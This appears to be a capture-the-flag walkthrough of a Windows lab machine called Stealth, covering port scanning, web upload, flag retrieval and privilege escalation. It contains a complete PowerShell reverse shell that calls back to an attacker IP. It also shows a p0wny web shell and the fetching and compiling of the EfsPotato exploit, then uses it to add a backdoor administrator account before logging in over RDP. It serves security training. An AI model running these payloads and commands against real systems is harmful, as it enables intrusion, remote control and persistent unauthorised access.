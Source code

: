 # Stealth

## Machine Info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.8.5 -oN port_scan.txt

Nmap scan report for 10.10.8.5
Host is up (0.040s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-05T12:35:28+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HOSTEVASION
|   NetBIOS_Domain_Name: HOSTEVASION
|   NetBIOS_Computer_Name: HOSTEVASION
|   DNS_Domain_Name: HostEvasion
|   DNS_Computer_Name: HostEvasion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-05T12:34:48+00:00
| ssl-cert: Subject: commonName=HostEvasion
| Not valid before: 2025-08-04T12:31:38
|_Not valid after:  2026-02-03T12:31:38
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
8000/tcp  open  http          PHP cli server 5.5 or later
|_http-title: 404 Not Found
8080/tcp  open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp  open  ssl/http      Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Try to upload a ps1 with a reverse shell to understand what is blocked and what not.

<details>

<summary>ps1 payload</summary>

```powershell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.23.52.142', 13337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close

```

</details>

```bash
penelope
m
listeners add -i tun0 -p 13337
```

We got a shell without anything restrictions

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Looking inside the evader's desktop we can view this file:

```powershell
SHELL> more encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE-----


```

Decode this from base64 we obtain this:

{% code overflow="wrap" %}
```bash
echo "WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA=" | base64 -d                             

You can get the flag by visiting the link http://10.10.8.5:8000/asdasdadasdjakjdnsdfsdfs.php                                                                                                                    
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

The file is a HoneyPot, try to follow the hint.

Go to Xampp uploads directory in the htdocs

```
cd C:\xampp\htdocs\uploads
rm log.txt
```

And now refresh the web page.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We got the user flag.



## PrivEsc

WinPEAS was blocked by AV. We can try others script but we not found any interesting thing.

### p0wny shell

Uploading the more stable shell like p0wny shell we notice that we are more privilges

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>



### EFS potato

{% embed url="https://github.com/zcgonvh/EfsPotato" %}

{% code overflow="wrap" %}
```
wget https://raw.githubusercontent.com/zcgonvh/EfsPotato/refs/heads/master/EfsPotato.cs

python3 -m http.server 80
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
curl http://10.23.52.142/EfsPotato.cs -o EfsPotato.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

EfsPotato.exe whoami

# add new user in the administrators group
EfsPotato.exe "cmd.exe /c net user Antoadmin Password123! /add && net localgroup Administrators Antoadmin /add"
```
{% endcode %}



### RDP Access

```
xfreerdp3 /v:IP /u:Antoadmin /p:'Password123!'
```

